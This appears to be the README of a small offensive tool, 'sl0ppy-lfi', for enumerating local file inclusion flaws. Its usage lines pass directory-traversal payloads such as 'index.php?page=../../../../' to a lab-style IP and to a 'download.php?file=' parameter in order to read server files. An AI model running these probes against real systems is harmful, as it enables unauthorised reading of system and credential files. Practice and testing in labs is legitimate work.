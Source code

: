 # sl0ppy-lfi
small lfi enum tool 

# Usage 

# Enum all
`./sl0ppy-lfi.sh http://10.10.11.154/index.php?page=../../../../../../../../../../` 

# enum specific stuff like only libc
`./sl0ppy-lfi.sh http://10.10.11.154/index.php?page=../../../../../../../../../../ | grep "libc"` 

# sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 

